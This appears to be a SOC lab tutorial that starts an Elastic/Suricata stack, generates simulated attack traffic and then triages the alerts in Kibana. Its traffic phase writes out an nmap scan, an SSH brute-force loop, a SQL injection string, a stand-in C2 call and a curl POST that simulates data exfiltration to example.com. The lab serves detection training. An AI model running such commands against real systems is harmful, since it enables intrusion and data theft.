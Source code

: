 **Complete end-to-end SOC workflow:**

**Phase 1: Preparation (5 minutes)**

```bash
# Ensure all services running
sudo systemctl start elasticsearch
sudo systemctl start kibana
sudo systemctl start suricata
sudo systemctl start filebeat

# Verify in Kibana (http://localhost:5601)
```

**Phase 2: Generate Attack Traffic (10 minutes)**

```bash
# Simulate reconnaissance
nmap -sS localhost

# Simulate brute force
for i in {1..10}; do
  ssh fakeuser@localhost
done

# Simulate web attack
curl -A "sqlmap/1.0" http://localhost
curl "http://localhost/admin.php?id=1' OR '1'='1"

# Simulate C2 connection
curl http://198.51.100.25:8080

# Simulate data exfiltration
dd if=/dev/urandom bs=1M count=100 | base64 > /tmp/exfil_data.txt
curl -X POST -d @/tmp/exfil_data.txt http://example.com
```

**Phase 3: Detection and Analysis (15 minutes)**

1. **Open Kibana → Security → Alerts**
2. **Review triggered alerts:**
   - SSH brute force
   - SQL injection attempt
   - Suspicious user agent
   - C2 communication

3. **Investigate each alert:**
   - Click alert → Expand details
   - View source/destination IPs
   - Check timestamps
   - Review related events

4. **Pivot to Discover:**
   - Filter by source IP
   - View all activities from that IP
   - Construct timeline
   - Identify attack pattern
